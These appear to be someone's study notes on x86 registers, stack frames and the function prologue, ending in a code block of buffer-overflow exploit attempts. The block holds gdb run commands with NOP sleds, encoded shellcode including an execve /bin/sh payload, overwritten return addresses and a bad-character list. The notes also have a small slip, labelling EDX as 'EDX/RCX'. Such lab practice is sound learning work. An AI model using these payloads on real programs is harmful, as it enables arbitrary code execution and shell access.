 Quickly accessible locations available to a cpu, consist of a small amount of fast storage.

[article](https://www.eecg.utoronto.ca/~amza/www.mindsec.com/files/x86regs.html)

# notation

- if preceded with e (stands for extended), it's a 32 bit register
- if preceded with r (idk what is stands for) it's a 64 bit register

# General registers

- AX register (eax in 32 rax in 64 bits) : Accumulator, used for i/o and arithmetic ops
- EBX/RBX : optionally used a base pointer
- ECX/RCX : counter register, used for loop counters and for shifts (whatever it means)
- EDX/RCX : Data register, I/O and in arithmetic operations for multiply and divide operations involving large values

# Pointer registers

- EIP/RIP : instruction pointer, offset address of the next instruction
- ESP/RSP : Points to the top of the stack
- EBP/RBP : Stack base pointer aka frame pointer.
  - s stack frame : EBP points to its base (its beginning in the high memory address), and ESP points to its top,

## Assembly function prologue

- push the current value of ebp into the stack (it contains the base pointer of the previous stack frame)
- mov the value of esp into ebp, thus creating a new stack frame.

```s
   0x0000054d <+0>:	    push   ebp       # <---- 1. Stores previous EBP
   0x0000054e <+1>:	    mov    ebp,esp   # <---- 2. Creates new Stack Frame
   0x00000550 <+3>:	    push   ebx
   0x00000551 <+4>:	    sub    esp,0x404 # <---- 3. Moves ESP to the top, by subbing the number of bytes required for local vars
```

- for getting out of a stack frame, esp is replaced with the current ebp, and ebp is popped off the stack  
  [stack overflow answer](https://stackoverflow.com/a/3700219/14500132)

- anatomy of a stack frame
  - ESP | Buffer space (where local vars are stored) | EBP | EIP
- esp at the top, and eip at the bottom of the stack

```
  run $(python -c 'print ((520-95)*"\x90" + "\xda\xc2\xb8\xee\x8a\x6d\x66\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x12\x31\x42\x17\x83\xc2\x04\x03\xac\x99\x8f\x93\x01\x45\xb8\xbf\x32\x3a\x14\x2a\xb6\x35\x7b\x1a\xd0\x88\xfc\xc8\x45\xa3\xc2\x23\xf5\x8a\x45\x45\x9d\x73\xb6\xb5\x5c\xe4\xb4\xb5\x24\x9d\x31\x54\x68\x3b\x12\xc6\xdb\x77\x91\x61\x3a\xba\x16\x23\xd4\x2b\x38\xb7\x4c\xdc\x69\x18\xee\x75\xff\x85\xbc\xd6\x76\xa8\xf0\xd2\x45\xab"+"\xd6\xd8\xff\xff" ) ' )


  run $(python -c 'print ((520-95)*"\x90" + "\xdb\xc8\xbe\xd6\x75\x07\xe6\xd9\x74\x24\xf4\x58\x33\xc9\xb1\x12\x31\x70\x17\x83\xc0\x04\x03\xa6\x66\xe5\x13\x77\x52\x1e\x38\x24\x27\xb2\xd5\xc8\x2e\xd5\x9a\xaa\xfd\x96\x48\x6b\x4e\xa9\xa3\x0b\xe7\xaf\xc2\x63\x87\x4f\x35\x72\x1f\x52\x35\x0e\xb6\xdb\xd4\x5e\x2e\x8c\x47\xcd\x1c\x2f\xe1\x10\xaf\xb0\xa3\xba\x5e\x9e\x30\x52\xf7\xcf\x99\xc0\x6e\x99\x05\x56\x22\x10\x28\xe6\xcf\xef\x2b"+"\x04\xd7\xff\xff" ) ' )


  run $(python -c 'print ((520-25)*"\x90" + "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" +"\xe4\xd6\xff\xff" ) ' )






00, 09, 0a, 20,

run $(python -c 'print "\x55" *524 + "B"*4 ')
0xffffd75e
```
